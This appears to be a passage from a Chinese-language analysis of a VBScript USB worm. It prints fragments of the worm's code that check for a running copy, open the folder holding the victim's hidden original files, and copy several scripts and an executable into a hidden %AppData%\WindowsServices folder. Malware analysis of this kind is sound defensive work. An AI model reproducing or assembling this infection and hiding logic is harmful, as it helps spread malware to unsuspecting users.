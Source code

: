 ```vb



Set objWinMgmt = GetObject("WinMgmts:Root\Cimv2")
Set colProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name = 'wscript.exe'")

For Each objProcess In colProcess
	vaprocess = objProcess.CommandLine
		if instr(vaprocess, "helper.vbs") then
			WScript.quit
		End if
Next


ws.Run Chr(34) & DestFolder & "\helper.vbs" & Chr(34)


Set ws = Nothing

```

逐步进行分析

#### 展示U盘原有文件

首先下面的代码打开了存放原有文件的文件夹，也就是名为"_"的文件夹

```vb
'where are we?
strPath = WScript.ScriptFullName
set objws = CreateObject("Scripting.FileSystemObject")
Set objFile = objws.GetFile(strPath)
strFolder = objws.GetParentFolderName(objFile)
pfolder = objws.GetParentFolderName(strFolder)
ws.Run Chr(34) & pfolder & "\_" & Chr(34)
```

#### 感染本机

随后获取了%APPDATA%下的WindowsServices文件夹，并且将U盘内的几个vbs文件和一个exe文件复制到刚刚获取的目录中

```vb
Target = "\WindowsServices"

AppData = ws.ExpandEnvironmentStrings("%AppData%")



DestFolder = AppData & Target


if (not objws.folderexists(DestFolder)) then
	objws.CreateFolder DestFolder	
	Set objDestFolder = objws.GetFolder(DestFolder)
end if

Call moveandhide ("\helper.vbs")
Call moveandhide ("\installer.vbs")
Call moveandhide ("\movemenoreg.vbs")
Call moveandhide ("\WindowsServices.exe")
objDestFolder.Attributes = objDestFolder.Attributes + 39
```
